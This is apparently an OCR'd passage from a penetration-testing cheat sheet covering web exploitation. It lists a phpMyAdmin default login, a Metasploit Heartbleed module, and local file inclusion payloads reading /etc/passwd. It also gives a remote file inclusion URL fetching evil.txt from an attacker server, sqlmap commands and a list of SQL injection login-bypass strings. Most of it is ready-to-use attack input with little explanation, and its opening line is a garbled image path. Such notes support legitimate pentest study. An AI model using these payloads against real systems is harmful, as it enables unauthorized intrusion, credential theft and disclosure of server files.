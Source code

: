 			-  `mv lo.jpg lo.php.jpg`

-   Phpmyadmin
	-   Default password `root:pma`
-   Webmin
    -   Have vulnerabilities, google.
-   Identify WAF using `wafw00f`   
- Spidering a given URL, up to a specified depth, and returns a list of words which can then be used for password crackers
-   WMAP Web Scanner
    -   web application vulnerability scanner

**Exploitation**
-   Heartbleed exploit
    
        use auxiliary/scanner/ssl/openssl_heartbleed
        set RHOSTS 192.168.3.212
        set verbose true
        run

-   XXS
	-   Session hijacking / Cookie theft. Steal cookie to get admin privilege
	-   use xsser tool
-   Local File Inclusion
	-   Bypassing php-execution
		-   `http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index`
	-   Bypassing the added .php and other extra file-endings
		-   `` http://example.com/page=../../../../../../etc/passwd%00 ``
		-   `` http://example.com/page=../../../../../../etc/passwd? ``
	-   folder that always exist
		-   `/etc/hosts /etc/resolv.conf`
	-   add %00jpg to end of files
		-   `/etc/passwd%00jpg`
	-   Refer this for more information
		-   [https://sushant747.gitbooks.io/total-oscp-guide/local_file_inclusion.html](https://sushant747.gitbooks.io/total-oscp-guide/local_file_inclusion.html)
		-   [https://highon.coffee/blog/lfi-cheat-sheet/](https://highon.coffee/blog/lfi-cheat-sheet/)

-   Remote file inclusion
    -   http://exampe.com/index.php?page=http://attackerserver.com/evil.txt

-   SQL Injection
	-   Enum using nmap
		-   `nmap -sV --script=http-sql-injection <target>`
	-   Using jsql
	-   Using sqlmap with login-page
	-   Capture the request using burp suite, and save the request in a file.
	-   `sqlmap -r request.txt`
	-   Crawl a page to find sql-injections
		-   `sqlmap -u http://example.com --crawl=1`
	-   [http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

	-   Login bypass
		-   `‘or 1=1- -`
		-   `‘ or ‘1’=1`
		-   `‘ or ‘1’=1 - -`
		-   `‘–`
		-   `' or '1'='1`
		-   `-'`
		-   `' '`
		-   `'&'`
		-   `'^'`
		-   `'*'`
		-   `' or ''-'`
		-   `' or '' '`
		-   `' or ''&'`